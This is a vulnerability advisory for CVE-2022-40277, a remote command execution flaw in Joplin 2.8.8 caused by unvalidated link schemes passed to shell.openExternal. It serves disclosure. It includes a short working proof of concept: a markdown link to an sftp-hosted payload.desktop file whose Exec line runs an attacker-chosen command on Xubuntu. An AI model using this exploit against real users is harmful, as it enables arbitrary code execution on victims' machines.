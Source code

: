 ```yaml
---
slug: advisories/skrillex/
title: Joplin 2.8.8  -  Remote Command Execution
authors: Carlos Bello
writer: cbello
codename: skrillex
product: Joplin 2.8.8
date: 2022-09-26 05:00 COT
cveid: CVE-2022-40277
severity: 7.7
description: Joplin 2.8.8  -  Remote Command Execution - Remote command execution
keywords: Fluid Attacks, Security, Vulnerabilities, Joplin, Exploitation
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Joplin 2.8.8  -  Remote Command Execution              |
| **Code name**         | [Skrillex](https://en.wikipedia.org/wiki/Skrillex)     |
| **Product**           | Joplin                                                 |
| **Affected versions** | Version 2.8.8                                          |
| **State**             | Public                                                 |
| **Release date**      | 2022-09-26                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Remote command execution                                                                               |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)            |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:H/PR:N/UI:R/S:C/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 7.7                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-40277](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-40277)                        |

## Description

Joplin version 2.8.8 allows an external attacker to execute arbitrary
commands remotely on any client that opens a link in a malicious
markdown file, via Joplin. This is possible because the application
does not properly validate the schema/protocol of existing links in
the markdown file before passing them to the shell.openExternal
function.

## Vulnerability

This vulnerability occurs due to improper scheme/protocol validation
of external URLs. Here is a small example to give you a better
understanding of vulnerability.

![image](https://user-images.githubusercontent.com/51862990/189775403-75f4e110-50f0-4afb-8cd6-63dd2c651b16.png)

Basically what the application is doing is sending to
shell.openExternal(url), any url present in the markdown
file.

## Exploitation requirements

To achieve the RCE, the attacker will abuse certain schemes/protocols.
Some of these only work on windows, others on MACos, others only work
correctly under certain specific Linux distributions. In my case, I
used Xubuntu 20.04 (Xfce) to simulate a victim. I chose this
distribution because in its default configuration it executes the
payload.desktop file after mounting the remote location where the
payload file is located. In other Linux distributions by default these
files are not executed once the remote location is mounted.

In the resources section I will provide you with support material so
that you can understand in greater depth what I have just explained.

## Exploitation

To exploit this vulnerability, you must send the following file to a
user to open with Joplin:

### exploit.md

```markdown
[exploit](sftp://user@server/uploads/payload.desktop)
```

### payload.desktop

In the Exec parameter you put the command you want the victim to execute.

```txt
[Desktop Entry]
Exec=xmessage "RCE by cbelloatfluid"
Type=Application
```

## Evidence of exploitation

![RCE-Joplin](https://user-images.githubusercontent.com/51862990/189775676-83553248-0452-4df4-a9c1-7b65bbbe4792.gif)

## Our security police

We have reserved the CVE-2022-40277 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Joplin 2.8.8

* Operating System: GNU/Linux - Xubuntu 20.04 (Xfce)

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://github.com/laurent22/joplin>

## Timeline

<time-lapse
  discovered="2022-09-07"
  contacted="2022-09-08"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-09-26">
</time-lapse>
